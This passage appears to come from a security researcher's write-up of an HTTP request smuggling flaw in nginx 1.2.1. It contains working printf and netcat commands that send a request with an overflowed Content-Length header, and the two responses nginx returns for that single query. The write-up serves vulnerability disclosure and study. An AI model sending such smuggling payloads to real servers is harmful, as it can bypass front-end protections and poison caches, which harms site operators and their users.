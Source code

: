 This one is rejected because it contains two Content-Length headers. Rejecting such requests is the base protection against HTTP smuggling.

Sleeping with a finger on the keyboard key '0', I ended-up sending that query (which is in fact only one query) -- if you wonder what are `\015` and `\012` they are the CR-CarriageReturn (\r) and LF-LineFeed (\n) ascii character, HTTP is like windows, it works with CRLF end of lines.--. I explode the oneliner on several lines for better readability:

    printf 'GET /fic1.html HTTP/1.1\015\012'\
    'Host: www.dummy-host.example.com\015\012'\
    'Content-Type: application/x-www-form-urlencoded\015\012'\
    'Content-Length:90000000000000000000000000000000000000000000000000000000000000015 \015\012'\
    '\015\012123456789012345'\
    'GET http://www.dummy-host.example.com/fic2.html HTTP/1.1\015\012'\
    'Host: www.dummy-host.example.com\015\012'\
    '\015\012'| netcat 127.0.0.1 80
    ----------------
    HTTP/1.1 200 OK
    Server: nginx/1.2.1
    Date: Sat, 28 Feb 2015 18:22:18 GMT
    Content-Type: text/html
    Content-Length: 41
    Last-Modified: Sun, 08 Feb 2015 23:51:13 GMT
    Connection: keep-alive
    Accept-Ranges: bytes

    <html><body><H1>FIRST</H1></body></html>
    HTTP/1.1 200 OK
    Server: nginx/1.2.1
    Date: Sat, 28 Feb 2015 18:22:18 GMT
    Content-Type: text/html
    Content-Length: 42
    Last-Modified: Sun, 08 Feb 2015 23:51:33 GMT
    Connection: keep-alive
    Accept-Ranges: bytes

    <html><body><H1>SECOND</H1></body></html>

Nginx responded to that query, it did not send me a "413" response, and I was awake enough to realize it. I have two valid responses for 1 single query.

With a shorter Content-length you have the right behavior (an error 413):

    printf 'GET /fic1.html HTTP/1.1\015\012'\
    'Host: www.dummy-host.example.com\015\012'\
    'Content-Type: application/x-www-form-urlencoded\015\012'\
    'Content-Length:90000015 \015\012'\
    '\015\012123456789012345'\
    'GET http://www.dummy-host.example.com/fic2.html HTTP/1.1\015\012'\
    'Host: www.dummy-host.example.com\015\012'\
    '\015\012'| netcat 127.0.0.1 80
    -----------
    HTTP/1.1 413 Request Entity Too Large
    Server: nginx/1.2.1
    Date: Wed, 25 Mar 2015 17:39:49 GMT
    Content-Type: text/html
    Content-Length: 198
    Connection: close
    
